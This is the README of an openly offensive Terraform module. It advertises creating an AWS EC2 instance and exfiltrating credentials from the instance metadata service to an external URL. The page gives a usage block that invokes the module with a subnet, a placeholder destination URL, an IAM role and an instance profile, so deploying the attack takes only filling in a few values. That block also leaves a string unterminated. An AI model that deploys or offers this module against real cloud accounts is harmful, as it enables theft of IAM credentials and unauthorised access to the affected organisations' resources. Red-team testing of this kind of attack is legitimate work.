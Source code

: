 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-purple)
![OffensiveTerraform](https://img.shields.io/badge/hack-green)


Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source = "offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/offensive-terraform/


